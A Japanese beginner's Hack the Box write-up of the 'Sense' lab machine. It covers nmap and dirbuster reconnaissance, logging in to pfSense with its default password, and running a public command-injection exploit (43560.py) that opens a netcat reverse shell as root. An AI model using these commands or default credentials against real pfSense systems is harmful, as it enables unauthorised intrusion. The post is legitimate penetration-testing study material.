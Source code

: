 ```yaml
---
title: "【Hack the Box write-up】Sense"
date:  "2020-04-12T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-04-12 15.16.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/186a9d13-f491-43cc-e7fe-7e8ddcd34db7.png)

OSCPlike な machine だそうです
https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines

## nmap

```
kali@kali:~$ nmap -sC -sV  10.10.10.60
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 00:34 EDT
Nmap scan report for 10.10.10.60
Host is up (0.22s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.22 seconds
```

## 443ポートを見てみる
![スクリーンショット 2020-04-12 15.18.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/47820283-1e0a-2c66-01b8-630fd84fa73e.png)

こんな感じの login フォームが出てきます


## dirbuster
（途中までですが）

![スクリーンショット 2020-04-12 16.45.25.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a4130212-d9ff-a0d8-3039-8067e2c6fbd2.png)
system-users.txt って言う怪しいのが出てきました

## system-users.txtを見る

```
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

default の password は以下から pfsense だとわかります
https://docs.netgate.com/pfsense/en/latest/usermanager/pfsense-default-username-and-password.html

## login

login すると以下のようなページが出てきます
![スクリーンショット 2020-04-12 14.08.24.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/9d601c71-b74d-bca3-d869-1c1562be66ea.png)

これで pfsense の version が `2.1.3-release` だとわかります

## searchsploit

```
kali@kali:~$ searchsploit pfsense
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                        |  Path
                                                                                                                                      | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                                                    | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                                                          | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                                                      | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                                                  | exploits/hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                                                          | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                                                          | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution                                          | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                                 | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                                                | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                                                   | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                                                   | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                                                     | exploits/php/webapps/41501.txt
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                                                       | exploits/php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                                                          | exploits/php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                                               | exploits/multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                                                             | exploits/php/webapps/46936.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                        | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                                                            | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                                                       | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                                                          | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                                                     | exploits/freebsd/webapps/24439.txt
-------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection `を試してみます

## exploit

```
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1212 --username rohit --password pfsense
```

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.60] 62626
sh: can't access tty; job control turned off
## whoami
root
```

一発で root まで取れてしまいました

## 終わりに
今回はかなり簡単な machine でした。
頑張って精進していきます

